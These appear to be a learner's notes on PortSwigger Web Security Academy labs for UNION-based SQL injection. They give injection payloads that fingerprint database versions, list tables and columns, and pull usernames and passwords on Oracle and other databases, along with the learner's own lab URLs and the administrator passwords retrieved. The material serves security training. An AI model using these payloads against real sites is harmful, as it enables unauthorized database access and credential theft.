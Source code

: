 # Examining the database

This will obtain some information about the database itself. You can query the version details for the database.

In Oracle I can execute ```SELECT * FROM v$version```

It could be also determine what database tables exist, and which columns they contain. For example, on most databases you can execute the following query to list the tables:

```SELECT * FROM information_schema.tables```

## Querying the database type and version

| Database type      | Query                     |
| ------------------ |---------------------------|
| Microsoft, MySQL   | SELECT @@version          |
| Oracle             | SELECT * FROM v$version   |
| PostgreSQL         | SELECT version()          |

### SQL injection attack, querying the database type and version on Oracle

This lab contains an SQL injection vulnerability in the product category filter.

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the *category* parameter:

    ``` '+UNION+SELECT+'abc','def'+FROM+dual-- ```

3. Use the following payload to display the database version:

    ``` ' UNION SELECT banner, NULL FROM v$version--```

**My comment**

```?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains an SQL injection vulnerability in the product category filter.

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the *category* parameter:

    ``` '+UNION+SELECT+'abc','def'#```

3. Use the following payload to display the database version:

    ```' UNION SELECT @@version, NULL#```

**My comment**

``` ?category=Lifestyle'+UNION+SELECT+null,@@version--+```

## Listing the contents of the database

Query *information_schema.tables* to list the tables in the database:

``` SELECT * FROM information_schema.tables```

This return output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Then query ``` information_schema.columns ``` to list the columns in individual tables:

```SELECT * FROM information_schema.columns WHERE table_name = 'Users'```

This returns output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

### SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. 

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the *category* parameter:

    ```'+UNION+SELECT+'abc','def'--```

3. Use the following payload to retrieve the list of tables in the database:

    ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--```

4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

    ``` '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'-- ```

6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

    ``` '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--```

8. Find the password for the administrator user, and use it to log in.

**My comment**

Check if the web has vulnerability by add ‘
```https://acc41f4f1fc52248805c132900e10004.web-security-academy.net/filter?category=Pets'```

than check if it works with -- or with #

```https://acc41f4f1fc52248805c132900e10004.web-security-academy.net/filter?category=Pets'--```

than check how many columns it have by ' ORDER BY 1-- 
```https://acc41f4f1fc52248805c132900e10004.web-security-academy.net/filter?category=Pets' ORDER BY 1—```

than check if it contains text or NULL 
```https://acc41f4f1fc52248805c132900e10004.web-security-academy.net/filter?category=Pets' UNION SELECT 'a', NULL—```

than retrieve the list of tables in the database 
```' UNION SELECT table_name, NULL FROM information_schema.tables--```

find users credentials 
```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = ‘users_yufcfa'--```

find username and password 
```' UNION SELECT username_kaighf, password_atqgtn FROM users_yufcfa—```

find administrator 
administrator
aewin0rqwdatvgjr9emb

### SQL injection attack, listing the database contents on Oracle

This lab contains an SQL injection vulnerability in the product category filter.

**Solution**
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the *category* parameter:

    ``` '+UNION+SELECT+'abc','def'+FROM+dual-- ```

3. Use the following payload to retrieve the list of tables in the database:

    ``` '+UNION+SELECT+table_name,NULL+FROM+all_tables-- ```

4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

    ``` '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- ```

6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

    ``` '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF-- ```

8. Find the password for the administrator user, and use it to log in.

**My comment**

```' UNION SELECT 'abc', 'abc'  FROM dual—```

retrieve all tables 

```' UNION SELECT table_name, NULL FROM all_tables--```

Find user password 

```' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = ‘USERS_KAZOKP'--```

find admin password 

```' UNION SELECT USERNAME_CLUMCM, PASSWORD_JDNBTH FROM USERS_KAZOKP--```

administrator
1jhz01stnphvyf824twx
